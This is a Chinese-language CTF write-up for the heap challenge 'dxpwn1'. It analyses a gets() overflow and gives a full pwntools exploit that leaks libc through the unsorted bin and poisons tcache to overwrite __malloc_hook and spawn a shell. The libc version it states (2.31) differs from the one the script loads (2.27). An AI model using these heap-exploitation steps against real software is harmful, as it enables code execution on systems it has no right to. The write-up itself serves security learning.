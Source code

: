 # dxpwn1

## 0x00 题面

题目链接: [D:\ctf\pwn\dxpwn1\pwn1](D:\ctf\pwn\dxpwn1\pwn1)
题目给了我们 libc，版本为 2.31，猜测可能与 tcache attack 相关。

## 0x01 思路

1. 首先对文件进行例行检测：

- 程序类型：

  ![](vx_images/4557509111142.png)

- 程序保护情况

  ![](vx_images/2752710129568.png)

  保护全开

2. 运行查看

   ![](vx_images/852511117435.png)

   发现是程序提供了类似于留言板的功能，有增删查 3 个模块，大概率是 heap 的题型。

3. 使用 IDA Pro 进行反编译静态分析

- main()函数

  ![](vx_images/1101214137601.png)

  根据用户的输入进入对应的功能模块

- create()增加留言

  ![](vx_images/298015130270.png)

  发现程序在 bss 段定义了一个堆指针`chunk_header`, 用于指向堆块(chunk). 每次创建留言时, 程序会申请`0x80`大小的 chunk, 随后让用户输入. 但是注意, 这里使用了`gets()`进行输入的读取, 该函数是不安全的, 不会对输入长度进行检查, 可以进行堆溢出. 输入结束后, 将本次申请的 chunk 地址存到`chunk_header`数组中. 还要注意的是, `gets`会自动在字符串末尾追加`\x00`, 进行地址泄露的时候会有点麻烦.

- drop()删除留言

  ![](vx_images/1292137126825.png)

  这段代码会`free`指定索引的 chunk, 并且将`chunk_header`指针置 0, 因此不能直接进行`UAF`手段

- view()查看留言

  ![](vx_images/5528838122579.png)

  这段代码会将指定索引的 chunk 打印出来, 注意这里使用了 printf 的打印方法, 会被`\x00`截断.

4. 分析

对于堆溢出的题目, 我们 getshell 的常用手段是设法申请到`__malloc_hook`或`__free_hook`地址处的堆块, 并写入 libc 的 one_gadget.

程序在申请堆块的时候, 存在溢出点, 我们可以无限地向堆块中写入字符, 而堆块大小是恒定. 为了达成申请到`__malloc_hook`地址处的堆块, 我们需要:

- 设法泄露处 libc 的基地址
- 利用 tcache 毒化, 将`__malloc_hook`地址放到 tcache 列表

## 0x02 编写 exp

1. 泄露 libc 地址

为了泄露 libc 地址, 我们需要借助到`unsorted bin`, 因为`unsorted bin`链表头的'fd'是于 libc 的`main_arena`相邻的, 通过`main_arena`可以推算出`__malloc_hook`地址与 libc 版本.

而为了能让 chunk 在`free()`后能进入`unsorted bin`, 我们需要使用溢出的方式, 修改下一个相邻 chunk 的 size 字段. 由于 tcache 的范围是`[0x10, 0x410)`, 而为了方便接下来的利用, size 最好还是`0x80`的整数倍, 因此选择将下一个相邻的 chunk 的 size 大小改为`0x480`

```python
    # 1st step: 泄露libc地址
    create('aaaa') # idx0, 用于溢出下一个chunk
    for i in range(9):
        create('bbbb') # idx1 to idx 9, 0x480=0x48 * 9, 用于进入unsorted bin的chunk
    # 使用溢出的手段, 让idx1的size处于unsorted bin的范围
    drop(0) # 由于程序没有修改的功能, 所以通过先删除再申请的功能写入payload
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # 进行溢出
    # free idx1, 此时的idx1会处于unsorted bin中
    drop(1)
    # 现在tcache lise是空的, 因此下一个新申请的chunk会从unsorted bin头部分割出来
    create('dddd') # idx1
    # 这个时候 idx1-0x80是unsorted bin的链表头地址
    # 但是同时他也是idx2的地址, 因此我们直接查看idx2即可获取libc的地址
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10  # malloc_hook与main_arena的偏移量是个定值
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432, 通过one_gadget获取
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")
```

2. 毒化 tcache 链表

为了能申请到`__malloc_hook`, 我们使用`tcache poisoning`的技术, 篡改 tcache 链表.

```python
    # 2nd step, tcache poisoning
    # 新申请3个chunk便于后续操作
    create('aaaa') # idx10, 用于溢出
    create('aaaa') # idx11
    create('aaaa') # idx12
    drop(12)
    drop(11) # 此时的tcache list: idx11 -> idx12 -> 0
    drop(10) # 先删除再申请回来, 用于写入paylaod

    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)  # payload会将idx11的fd字段改为__malloc_hook的地址
    create(payload) # 此时的tcache list: idx11 -> malloc_hook

    # 3rd step, getshell
    payload = p64(libc_base + one_gadget) # libc中执行system('/bin/sh')的地址
    create('aaaa') # idx11, 此时的tcache list: malloc_hook
    create(payload) # 这一步已经修改了`__malloc_hook`的指向了

    p.sendafter(">> ", "1") # 调用malloc触发`__malloc_hook`
    p.interactive() # getshell
```

完整 exp:

```python
from pwn import *
from LibcSearcher import *

'''
tips: UAF, unsorted bin leak libc, tcache poisoning, __malloc_hook
'''
p = process(['./pwn1'])

def create(content):
    p.sendafter(">> ", "1")
    p.sendlineafter("content: ", content)


def view(idx):
    p.sendafter(">> ", "3")
    p.sendlineafter('index: ', str(idx))


def drop(idx):
    p.sendafter(">> ", "2")
    p.sendlineafter("index: ", str(idx))


def exp():
    # 1st step: leak libc
    create('aaaa') # idx0, for overflowing
    for i in range(9):
        create('bbbb') # idx1 to idx 9
    # make idx1's size in range of unsorted bin
    drop(0)
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # overflow
    # free idx1, and idx1 would be in unsorted bin
    drop(1)
    # now tcache list is empty, so new chunk is alloced from unsorted bin header
    create('dddd') # idx1
    # now address of idx1 - 0x80 is the header of unsorted bin
    # meanwhile, it's idx2's address, so just to print it to leak libc's address
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")

    # 2nd step, tcache poisoning
    create('aaaa') # idx10
    create('aaaa') # idx11
    create('aaaa') # idx12

    drop(12)
    drop(11) # tcache list: idx11 -> idx12
    drop(10)
    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)
    create(payload) # tcache list: idx11 -> malloc_hook
    payload = p64(libc_base + one_gadget)
    create('aaaa') # idx11
    create(payload) # malloc_hook

    p.sendafter(">> ", "1") # getshell
    # create('cccc')
    p.interactive()


if __name__=="__main__":
    exp()

```

![](vx_images/643516240459.png)
